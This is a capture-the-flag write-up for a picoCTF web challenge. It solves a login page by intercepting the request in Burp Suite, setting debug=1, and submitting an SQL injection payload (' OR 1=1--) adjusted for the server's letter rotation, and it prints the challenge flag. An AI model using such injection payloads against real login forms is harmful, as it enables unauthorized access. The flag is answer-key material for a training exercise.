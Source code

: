 # Description

There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or `http://jupiter.challenges.picoctf.org:54253`. Try to see if you can login as admin!

# Hints

Seems like the password is encrypted.

# Solution

- This post uses burp suite for ease guys :))

- Do some operations like target, scope on the link

![alt text](/image/17.png)

- Intercept request to password, active mode debug (0 -> 1)
``` console
Referer: https://jupiter.challenges.picoctf.org/problem/54253/login.html
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

password=a&debug=1
```

- After enabling debug mode, you can try additional SQL Injection attacks to exploit the vulnerability of the website. For example, we can change the password to:
``` console
password=' OR 1=1--&debug=1
```

![alt text](/image/19.png)

- Replace "BE" with "OR"

![alt text](/image/20.png)

# Flag
`picoCTF{3v3n_m0r3_SQL_7f5767f6}`